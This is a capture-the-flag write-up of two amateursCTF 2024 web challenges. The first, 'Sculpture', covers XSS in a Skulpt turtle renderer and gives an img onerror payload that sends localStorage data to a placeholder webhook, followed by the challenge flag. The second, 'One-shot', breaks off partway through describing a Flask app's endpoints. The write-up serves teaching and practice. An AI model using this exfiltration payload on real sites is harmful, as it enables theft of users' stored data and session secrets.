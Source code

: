 ## Sculpture

### Description

smashmaster

Client side rendered python turtle sculptures, why don't we play around with them.

Remote (for use in admin bot): https://amateurs-ctf-2024-sculpture-challenge.pages.dev Admin Bot(http://admin-bot.amt.rs/sculpture)

### Solution

So we have a web app that translates python turtle in graphics. It uses a technology called Skulpt which compiles Python into Javascript. In order for the python script to run it needs a runtime environment where the compiled code executes and its `skulpt.min.js` and `skulpt-stdlib.js` files.

We have a bot that contains the flag and browses to the domain: `https://amateurs-ctf-2024-sculpture-challenge.pages.dev`.

Since we are dealing with bots its certainly a XSS challenge, trying `print("<script>alert()</script>")` we were able to add the script tag but the alert didnt pop off. Lets try other tags like `<img>`, `<iframe>` or `<svg>`.

Payload `print("<img src=x onerror=alert('hi');>")` pop off the alert so we are good to go.
Lets build a payload that steals cookies: `print("<img src=x onerror=window.location.href='<YOUR WEBHOOK>?flag='+localStorage.getItem('flag')>")`
Since it decodes from base64, we need to encode it: 

```js
document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});
```
Flag: `amateursCTF{i_l0v3_wh3n_y0u_can_imp0rt_xss_v3ct0r}`

## One-shot

### Description

voxal
my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! http://one-shot.amt.rs

### Solution

The present web app is build in python and the flag is stored in `/app/flag.txt`.
The web app is using the following tech:
- flask
- gunicorn

The web app has 4 endpoints:
- GET `/`: Nothing here.
- POST `/new_session`: This endpoint is referred in the main endpoint(`/`) as the entrypoint. It basically creates a new table with a random id that contains a randomly generated password and a integer referred as `searched`. After that, it renders a page containing a mention to `/search` and the id generated when requesting this endpoint. Nothing we can do here.
- POST `/search`: 
  - Search endpoint receives two parameters: id and query. id its the one generated before and need to be 16 characters from the following list `1234567890abcdef`: `[1234567890abcdef]{16}`. 
  - It verifies if `searched` is more then 0, meaning we have already searched: `SELECT searched FROM table_{id}`. If it is then print `You have used your shot`.